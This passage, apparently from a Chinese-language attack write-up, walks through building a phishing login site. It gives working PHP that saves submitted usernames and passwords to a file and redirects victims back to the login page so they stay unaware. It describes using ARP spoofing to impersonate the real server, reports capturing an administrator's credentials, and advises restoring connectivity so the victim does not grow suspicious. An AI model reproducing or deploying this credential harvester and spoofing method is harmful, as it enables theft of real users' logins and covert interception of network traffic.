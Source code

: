 ```html
                    </div>
    </div>
</div>


</body>

</html>
```

​	那一段js代码是为了实现点击验证码图片就能切换图片的功能的。整个代码没有任何的校验机制，它做的事只是引导用户输入，然后向后端提交表单。后端代码长这样：

```php
<?php

$username = test_input($_POST["LoginForm"]["username"]);
$password = test_input($_POST["LoginForm"]["password"]);

$file_name = "pwd_dic.txt";
$data = "username: " . $username . "\t" . "password: " . $password . "\n";
if ($username != "" && $password != ""){
    file_put_contents($file_name, $data,FILE_APPEND);
}
header("Location: index.html");
exit();

function test_input($data):string{
    $data = trim($data);
    $data = stripslashes($data);
    $data = htmlspecialchars($data);
    return $data;
}
```

​	这段代码的功能同样简单，接收前端提交的表单，并以文件的形式保存到pwd_dic.txt文件中。函数test_input是为了对前端传入的字符做安全检验，防止代码注入，毕竟如果攻击者反被攻击，那也太糟糕了，在这个代码中，为了降低用户对被钓鱼的感知，后端接收到了前端数据之后，除了保存数据，还会重定向页面，一直将页面重定向回登录界面，迷惑用户，使其不知道发生了什么事。

​	如此，钓鱼站点搭建完成，只需要开启攻击机的apache服务，提前使用ARP欺骗顶替掉服务器，接下来就只剩下等待。

​	攻击自然是成功的，最后也如愿以偿的拿到了网站管理员的账户和密码，进入了网站的管理后台：

![218761ceb30ab1b981d5335bd8af9154](../img/218761ceb30ab1b981d5335bd8af9154.JPG)

​	最后的最后，攻击完成之后，还需要回复目标主机和服务器的正常连接，否则就会引起用户的怀疑，导致攻击暴露：
